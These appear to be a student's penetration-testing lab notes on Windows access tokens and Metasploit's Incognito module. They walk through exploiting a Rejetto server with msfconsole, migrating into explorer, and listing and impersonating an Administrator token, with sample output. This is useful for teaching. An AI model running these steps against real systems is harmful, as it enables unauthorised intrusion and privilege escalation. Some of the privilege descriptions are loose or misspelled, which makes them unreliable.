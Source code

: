 #### Windows Access Token
	- Core element of authentication in Windows
	- Manageed by the Security Authority Subsystem Service
	- Describes the secuirty context of a process or thread
	- Generated by the winlogon.exe
	- Token attatches to the uerinit.exe process, all child process started by that obtain a copy of that token

	- Security Levels of Access Token
		- Impersonate-level tokens
			- Domain Logons or System Service Logons
			- Used on the local system
		- Delegate-level tokens
			- Traditional Logons or through remote access (RDP)
			- Can be used on any System

#### Windows Privileges 

	- SeAssignmPrimaryToken 
		- Impersonate tokens
	- SeCreateToekn 
		- Random token with admin privileges
	- SeImpersonatPrivilege 
		- Can create a proccess under admin privileges

#### The Incognito Module
	- Module for impersonating tokens after exploitation
	- List available tokens for impersonation

#### Tools
msfconsole
pgrep 
migrate

#### Commands

Exploit rejetto with msfconsole
```
msfconsole 
search rejetto
show options
set RHOSTS target_ip 
exploit
```

Migrate Architecture
```
pgrep explorer
migrate process_id
```

Check privs
```
getprivs
```

Load incognito
```
load incognito 

Loading extension incognito...Success.
```

List available tokens
```
list_tokens -u

Delegation Tokens Available
========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE

Impersonation Tokens Available
========================================
No tokens available

```

Impersonate token
```
impersonate_token  ATTACKDEFENSE\\Administrator
```

# Task: Privilege Escalation: Impersonate

**Estimated time:** 10 minutes

## Goal

This lab covers the process of impersonating access tokens on Windows with meterpreter's in-built Incognito module.

## Pre-requisites

1. Basic familiarity with Nmap.
2. Basic Familiarity with Metasploit.

## Requirements

This task does not have any requirements.